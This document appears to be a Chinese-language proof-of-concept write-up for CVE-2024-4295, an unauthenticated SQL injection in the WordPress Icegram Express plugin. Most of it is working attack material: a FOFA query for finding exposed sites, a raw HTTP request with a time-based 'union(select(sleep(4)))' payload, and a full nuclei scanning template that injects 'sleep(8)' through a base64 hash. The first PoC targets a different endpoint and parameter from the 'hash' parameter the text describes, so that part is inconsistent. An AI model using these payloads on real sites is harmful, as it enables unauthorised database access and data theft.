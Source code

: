 # WordPress插件Icegram-Express存在未经身份验证的SQL注入漏洞(CVE-2024-4295)

WordPress 的 Icegram Express 插件的电子邮件订阅者在 5.7.20 及之前的所有版本中都容易通过“hash”参数受到 SQL 注入攻击，原因是对用户提供的参数转义不充分，并且对现有 SQL 缺乏充分的准备询问。 这使得未经身份验证的攻击者可以将额外的 SQL 查询附加到现有的查询中，这些查询可用于从数据库中提取敏感信息。

## fofa

```javascript
body="/wp-content/plugins/email-subscribers/"
```

## poc

```javascript
POST /wp-admin/admin-post.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202502131420209.webp)

```javascript
id: CVE-2024-4295

info:
  name: Email Subscribers by Icegram Express <= 5.7.20 - Unauthenticated SQL Injection via Hash
  author: iamnoooob,rootxharsh,pdresearch
  severity: critical
  description: |
    Email Subscribers by Icegram Express <= 5.7.20 contains an unauthenticated SQL injection vulnerability via the hash parameter.
  remediation: Fixed in 5.7.21
  impact: This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.
  reference:
    - https://www.wordfence.com/threat-intel/vulnerabilities/id/641123af-1ec6-4549-a58c-0a08b4678f45?source=cve
    - https://github.com/cve-2024/CVE-2024-4295-Poc
    - https://github.com/truonghuuphuc/CVE-2024-4295-Poc
    - https://nvd.nist.gov/vuln/detail/CVE-2024-4295
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2024-4295
    cwe-id: CWE-89
    epss-score: 0.00091
    epss-percentile: 0.39447
    cpe: cpe:2.3:a:icegram:email_subscribers_\&_newsletters:*:*:*:*:*:wordpress:*:*
  metadata:
    vendor: icegram
    product: email_subscribers_\&_newsletters
    framework: wordpress
    verified: true
    max-request: 1
    publicwww-query: "/wp-content/plugins/email-subscribers/"
    fofa-query: body="/wp-content/plugins/email-subscribers/"
  tags: time-based-sqli,cve,cve2024,wordpress,wp-plugin,wp,email-subscribers,sqli

flow: http(1) && http(2)

variables:
  contact_id: "{{contact_id}}"
  email: "{{email}}"
  rawhash: '{"message_id":0,"campaign_id":0,"contact_id":"{{contact_id}}","email":"{{email}}","guid":"dibwol-qaiebd-qvrgkp-lhyopm-rmyfzo","list_ids":["sleep(8)"],"action":"subscribe"}'

http:
  - method: GET
    path:
      - "{{BaseURL}}"
      - "{{BaseURL}}/wp-content/plugins/email-subscribers/readme.txt"

    stop-at-first-match: true
    host-redirects: true
    max-redirects: 2
    matchers:
      - type: dsl
        dsl:
          - 'contains_any(body, "email-subscribers-", "Email Subscribers by Icegram Express")'
        internal: true

  - raw:
      - |
        @timeout: 20s
        GET /?es=optin&hash={{ base64(rawhash) }} HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - 'duration>=8'
          - 'contains(body, "You have been successfully subscribed")'
        condition: and
```

## 漏洞来源

- https://github.com/projectdiscovery/nuclei-templates/blob/d7a064daf93a42628df88d043b737c7297143645/http/cves/2024/CVE-2024-4295.yaml
- https://mp.weixin.qq.com/s/Shni_iBVEDEP2q-Ng0qcNw